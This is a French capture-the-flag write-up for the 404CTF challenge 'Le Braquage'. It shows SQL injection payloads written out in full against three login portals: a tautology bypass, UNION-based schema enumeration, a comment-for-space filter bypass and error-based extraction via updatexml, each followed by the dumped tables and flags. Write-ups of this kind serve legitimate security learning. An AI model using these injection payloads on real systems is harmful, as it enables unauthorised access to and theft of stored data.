 # Le Braquage

On se connecte au [site](https://le-braquage.404ctf.fr) et on y découvre trois portails d'accès qui semblent nous indiquer d'exploiter des **injections SQL**

## Première page : 
En execuatnt l'injection SQL : 
```sql
' OR '1'='1 
```

Dans le champ identifiant, on découvre le tableau : 

| Id | Pseudonyme | Téléphone | Adresse | Code |
| :-------------: | :-------------: | :-------------: | :-------------: | :-------------: |
| 1 | RIRI | 0145489625 | 5 avenue des groseilles | OpérationEpervier |
| 2 | FIFI | 0145889625 | 1 rue des myrtilles | OpérationFaucon |
| 3 | LOULOU | 0115789625 | 1 rue des pommes | OpérationFaucon |
| 456 | JAJA | 0145769625 | 1 rue des pommes | OpérationGorfou |
| 472 | RORO | 0189999625 | 5 boulevard des poires | OpérationFaucon |
| 7456 | TITI | 404CTF{0145769456} | 404CTF{21 rue des kiwis} | OpérationGorfou |
| 7865 | DEDE | 0145781225 | 3 avenue des oranges | OpérationMouette |
| 16579 | DIDI | 0145789625 | 1 rue des pommes | OpérationEpervier |

D'où les deux premiers Flags :
>404CTF{0145769456}

>404CTF{21 rue des kiwis}

---

## Deuxième page :

En executant l'injection :

```sql
 cn ' UNION select 1, schema_name from INFORMATION_SCHEMA.SCHEMATA -- -
```
On obtient le nom de la Database :

| Pseudo | Coopératives |
| :-------------: | :-------------: |
| 1 | UnionVendeurs |

On peut donc explorer les tables de cette Database :

```sql
cn' union select 1, table_name from information_schema.tables where table_schema='UnionVendeurs'-- -
```

On obtient le nom des la tables:

| Pseudo | Coopératives |
| :-------------: | :-------------: |
| 1 | Users |
| 1 | cooperatives |

Et en explorant la table Users :

```sql
cn' union select 1, column_name from information_schema.columns where table_name='Users'-- -
```
on obtient le nom des colonnes :

| Pseudo | Coopératives |
| :-------------: | :-------------: |
| 1 | id |
| 1 | nom |
| 1 | prenom |


Et finalment, en executant l'injection : 
```sql
cn' Union select nom, prenom from Users-- -
```
| Pseudo | Coopératives |
| :-------------: | :-------------: |
| Assin | Marc |
| Outan | Laurent |
| Gator | Ali |
| Reptile | Eric |
| Culé | Roland |
| 404CTF{Vereux} | 404CTF{UnGorfou} |
| Abbé | Oscar |
| Conda | Anna |

>À noter qu'il n'y a rien à exploiter dans la colonne id

On trouve deux nouveaux flags :

>404CTF{Vereux}

>404CTF{UnGorfou}
---
## Troisième page :
une simple injection sql avec des commentaires à la place des espaces pour eviter les filtres : 
```sql
'/**/OR/**/'1'='1 
```

| Code | Date | Heure |
| :-------------: | :-------------: | :-------------: |
| OpérationEpervier | 2021-11-02 | 19h |
| OpérationMouette | 2021-09-14 | 19h |
| OpérationFaucon | 2022-01-01 | 20h |
| OpérationGorfou | 404CTF{2022-07-14} | 404CTF{01hDuMatin} |

On récupère à nouveaux deux flags : 

>404CTF{2022-07-14}

>404CTF{01hDuMatin}


Il manque donc qu'une seule chose : **le mot de passe**...

Après beaucoup de recherches, on touve que sur la troisième page, les **erreurs passent avant le filtre**. Donc en utilisant le bon payload, (merci [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md) encore une fois ...) on trouve ceci, après énumération de la db:

```sql
' and updatexml(null,concat(0x0a,(select column_name from information_schema.columns where table_schema=database() LIMIT 1,1)),null)-- -
```

```text
Array(    [0] => HY000    [1] => 1105    [2] => XPATH syntax error: 'mdp')RequĂȘte invalide : ne pas mettre d'espace
```

la fameuse colonne ‘mdp’ est découverte et on obtient le mot de passe :

```sql
' and updatexml(null,concat(0x0a,(select mdp from Password LIMIT 5,1)),null)-- -
```

```text
Array(    [0] => HY000    [1] => 1105    [2] => XPATH syntax error: '404CTF{GorfousAuPouvoir}')RequĂȘte invalide : ne pas mettre d'espace
```


donc on a le flag final : 
>404CTF{VereuxUnGorfou014576945621ruedeskiwis2022-07-1401hDuMatinGorfousAuPouvoir}